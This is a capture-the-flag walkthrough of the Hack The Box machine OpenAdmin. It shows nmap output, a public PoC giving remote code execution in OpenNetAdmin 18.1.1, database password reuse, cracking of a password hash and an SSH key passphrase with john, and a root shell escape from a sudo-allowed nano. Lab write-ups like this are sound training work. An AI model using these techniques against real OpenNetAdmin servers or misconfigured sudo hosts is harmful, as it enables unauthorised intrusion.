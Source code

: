 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

> [!tip]- Summary with Spoilers
> - This machine included an exposed [OpenNetAdmin](https://github.com/OpenNetAdmin/ona) installation, which I exploited using a command injection vulnerability to gain RCE as the `www-data` user.
> - I pivoted to the `jimmy` user by discovering plaintext credentials in configuration files under `/opt/ona/includes/`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing execution of arbitrary commands as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jul  1 11:54:57 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.10.171)
Host is up (0.39s latency).
Not shown: 55237 closed tcp ports (reset), 10296 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
http://t [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Title[Apache2 Ubuntu Default Page: It works]
```

Fuzzing for directories uncovers `/music`, and a link from there led to `/ona`:

![](_/htb-openadmin-20240701-1.png)

This is [OpenNetAdmin](https://opennetadmin.com/), with plenty of attack surface:

> OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors. A full CLI interface is available as well to use for scripting and bulk work.

## RCE

The OpenNetAdmin service running on the target has an RCE vulnerability. I used [this PoC](https://github.com/amriunix/ona-rce):

```console
$ python3 ./ona-rce.py check http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

$ python3 ./ona-rce.py exploit http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## PE

In the server's web root, the file `local/config/database_settings.inc.php` contains database credentials:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
```

I tried reusing that password for users `root` and `joanna`, neither of which worked, but it worked for user `jimmy`:

```console
www-data@openadmin:/opt/ona/www$ su - jimmy
Password:
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

There's an interesting PHP file owned by group `internal`:

```console
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php

jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Here's the vhost config:

```console
jimmy@openadmin:/etc/apache2$ cat sites-enabled/internal.conf
Listen 127.0.0.1:52846
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal
<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

I used [SSH port fowarding](pivoting-with-ssh-port-forwarding-20240627.md) to access the internal-facing web server boudn to port 52846:

![](_/htb-openadmin-20240701-3.png)

That login page comes from `/var/www/internal/index.php`, and the relevant code snippet is below:

```php
<?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```

That's an unsalted hash, which [CrackStation](https://crackstation.net/) has an entry for:

![](_/htb-openadmin-20240701-2.png)

The credentials `jimmy:Revealed` give us the private key for `joanna`:

![](_/htb-openadmin-20240701-4.png)

There's a passphrase for the private key, and the previously discovered "ninja" password didnt work. So, I used `john` to crack it, which only takes a few seconds:

```console
$ ssh2john ./id_rsa  > john.id_rsa

$ john -wordlist=~/rockyou.txt ./john.id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (./id_rsa)
1g 0:00:00:03 DONE (2024-07-01 12:28) 0.2985g/s 2858Kp/s 2858Kc/s 2858KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That password grants access to the `joanna` account and user flag:

```console
$ ssh -i id_rsa joanna@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
...
Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

joanna@openadmin:~$ ls -l user.txt
-r-------- 1 joanna joanna 33 Jul  1 17:53 user.txt
```

Elevating privileges is possible via Sudo:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

joanna@openadmin:~$ ls -l /opt/priv
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv

joanna@openadmin:~$ file /opt/priv
/opt/priv: empty

joanna@openadmin:~$ ls -ld /opt
drwxr-xr-x 3 root root 4096 Jan  4  2020 /opt

joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

From inside the `nano` editor, it's possible to execute a shell command via `^R^X` and passing `reset; sh 1>&0 2>&0`, which provides an interactive `root` shell.
